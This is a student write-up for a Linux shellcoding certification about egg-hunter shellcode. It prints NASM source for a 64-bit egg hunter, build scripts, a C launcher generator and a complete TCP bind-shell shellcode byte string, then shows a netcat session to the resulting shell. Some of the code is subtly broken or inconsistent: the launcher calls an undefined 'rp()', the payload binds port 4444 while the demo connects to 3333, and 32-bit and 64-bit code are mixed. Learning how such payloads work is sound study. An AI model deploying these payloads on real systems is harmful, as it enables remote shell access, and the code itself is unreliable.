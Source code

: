 # SLAE Assignment #3

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-­courses/x8664-assembly-and-shellcoding-on-linux/index.html

Student ID: SLAE64 - 1525

## Assignment

* Study about the Egg Hunter shellcode
* Create a working demo of the Egghunter
* Should be configurable for different payloads

## Resources

* http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

## Egg Hunters theory

For this assignment it's required to study the egg hunting tecniques, and come up with a fully working implementation.

Usually when a BOF happens, there isn't a lot of space available for the payload, what happens in most of cases is that a small portion of shellcode is put on the stack and directly accessible and 
another part instead is put somewhere else, and have much more space available. The egg hunting tecnique consists in a two staged payload, the first, smaller, searches for a particular pattern in memory, with which the second larger part is identified and executed. As from the paper mentioned earlier the pattern is usually 4 bytes long, and repeated twice, so that the egg-hunter won't transfer execution to its own code.

## Implementation

The shellcode used is the one for shell bind, the only change is that it will be prefixed with a short premises of 8 bytes that will be the pattern searched by the egg hunter.
Here follows the egg-hunter code:

```
; Filename: EggHunter.nasm
; Author: SLAE64 - 1525
;
; Purpose: execute through egg-hunter routine the shellcode of ShellBindTcp
BITS 64

global _start			

section .text

EGG equ 'ABCD'

_start:
    ; load final address in rax
    lea rax, [rel address_space_end]

search:
    inc rax
    cmp dword [eax], EGG
    jne search
    cmp dword [eax + 0x4], EGG
    jne search
    add rax, 8
    jmp rax

address_space_end:
```

Compiling the assembler code to shellcode with the following script:

```
echo '[+] Assembling with Nasm ... ' # Nasm shell source: file.nasm
nasm -f elf64 -o $1.o $1.nasm
echo '[+] Done!'

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o
echo '[+] Done!'

# Remove object file
rm -rf $1.o

echo '[+] Dumping Shellcode ...'
objdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\x/g'|paste -d '' -s |sed 's/^/"/' | sed 's/$/"/g'
echo '[+] Done!'

# Remove executable
rm -rf $1
```

which generates the following output (shellcode asm):

```
$ ./compile-nasm.sh egg-hunter      
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Dumping Shellcode ...
"\x48\x8d\x05\x18\x00\x00\x00\x48\xff\xc0\x67\x81\x38\x41\x42\x43\x44\x75\xf4\x67\x81\x78\x04\x41\x42\x43\x44\x75\xea\x48\x83\xc0\x08\xff\xe0"
[+] Done!
```

We are using the same shellcode of the previous assignment (shell bind). The following script allows easily customization of the egg payload and of the shellcode itself:

```
# Ex: ./compile.sh ABCD "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# Ex: ./compile.sh ABCD "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

echo '######### NASM #########'
echo '[+] Customizing Tag: '$1 # $1 Tag like: ABCD
tag=`echo -n $1 | xxd -ps | sed 's/[[:xdigit:]]\{2\}/\\\x&/g'`
echo '[+] Done!'

echo '[+] Customizing Shellcode: '$2 # $2 Shellcode: \x00\x01..
shellcode=$2
echo '[+] Done!'

echo '[+] Assemble shellcode C ...'

echo "#include<stdio.h>" >shellcode.c
echo "#include<string.h>" >>shellcode.c
echo "#define EGG \"$tag\"" >>shellcode.c
echo "unsigned char egghunter[] = \"\x48\x8d\x05\x18\x00\x00\x00\x48\xff\xc0\x67\x81\x38\"" >>shellcode.c
echo "                            EGG" >>shellcode.c
echo "                            \"\x75\xf4\x67\x81\x78\x04\"" >>shellcode.c
echo "                            EGG" >>shellcode.c
echo "                            \"\x75\xea\x48\x83\xc0\x08\xff\xe0\";" >>shellcode.c
echo "unsigned char shellcode[] = EGG" >>shellcode.c
echo "                            EGG" >>shellcode.c
echo "                            \"$shellcode\";" >>shellcode.c
echo "int main (int argc, char** argv) {" >>shellcode.c
echo "    printf(\"Shellcode Length: %d\\n\", (int) strlen(shellcode));" >>shellcode.c
echo "    printf(\"Egghunter Length: %d\\n\", (int) strlen(egghunter));" >>shellcode.c
echo "    int (*p)() = (int(*)())egghunter;" >>shellcode.c
echo "    rp();" >>shellcode.c
echo "}" >>shellcode.c

echo '[+] Done!'

echo '[+] Assemble shellcode.c ...'
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

The script is executed as follows:

```
$ ./compile.sh ABCD "\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x6a\x05\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x89\xc6\x31\xc0\xb0\x02\xcd\x80\x09\xc0\x75\x49\x31\xc0\xb0\x06\x89\xfb\xcd\x80\x31\xc0\xb0\x3f\x89\xf3\x31\xc9\xb1\x01\xfe\xc9\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x02\xcd\x80\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb1\x01\xfe\xc9\x31\xc9\x88\xca\xcd\x80\x31\xc0\xb0\x06\x89\xf3\xcd\x80\xeb\x90"
######### NASM #########
[+] Customizing Tag: ABCD
[+] Done!
[+] Customizing Shellcode: \x31\xc0\xb0\x66\x31\xdb\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x6a\x05\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x89\xc6\x31\xc0\xb0\x02\xcd\x80\x09\xc0\x75\x49\x31\xc0\xb0\x06\x89\xfb\xcd\x80\x31\xc0\xb0\x3f\x89\xf3\x31\xc9\xb1\x01\xfe\xc9\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x02\xcd\x80\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb1\x01\xfe\xc9\x31\xc9\x88\xca\xcd\x80\x31\xc0\xb0\x06\x89\xf3\xcd\x80\xeb\x90
[+] Done!
[+] Assemble shellcode C ...
[+] Done!
[+] Assemble shellcode.c ...
```

## Proof of execution

The executed shellcode leads to the following output that confirms it's correctness:
```
$ ./shellcode
Shellcode length: 164
Egghunter length: 36

```

and successful connection with execution of a system command into the bind shell:

```
$ nc -vv localhost 3333
Connection to localhost 3333 port [tcp/*] succeeded!
abcd
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
```